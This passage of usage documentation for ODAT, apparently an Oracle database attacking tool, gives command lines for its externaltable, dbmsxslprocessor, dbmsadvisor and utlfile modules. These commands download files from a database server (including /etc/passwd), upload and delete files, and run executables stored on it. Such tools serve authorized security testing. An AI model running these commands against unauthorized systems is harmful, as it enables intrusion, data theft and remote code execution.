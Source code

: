 This module can be used to download files or to run script remotly.

__Notes__: 

 ~ It is __not possible to give an argument__ to the executable

 ~ The executable must be stored on the database server

 ~ The executable must have the execution bit enabled

* To download the *temp.sh* file stored in */tmp/* in *test.txt*:
```bash
./odat.py externaltable -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /tmp/ temp.sh test.txt
```

* To run the *temp.sh* executable stored in the */tmp/* folder of the database server: 
```bash
./odat.py externaltable -s $SERVER -d $SID -U $USER -P $PASSWORD --exec /tmp/ temp.sh
```

 *dbmsxslprocessor* module
---

This module can be used to upload a file on a remote database server:

* To upload the *test.txt* local file in the */tmp/* folder like *file.txt*:
```bash
./odat.py dbmsxslprocessor -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt test.txt
```

 *dbmsadvisor* module
---

This module can be used to upload a file on the server.

* To upload the *test.txt* local file in the */tmp/* folder like *file.txt*:
```bash
./odat.py dbmsadvisor -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt ./test.txt
```

 *utlfile* module
---

This module can be used to:

 ~ upload a file

 ~ download a file

 ~ delete a remote file


* To download the */etc/passwd* file:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --test-module --getFile /etc/ passwd passwd.txt
```

* To upload the *test.txt* file:
```bash
./odat.py utlfile -s $SERVER -d $SID -U $USER -P $PASSWORD --putFile /tmp/ file.txt test.txt
```
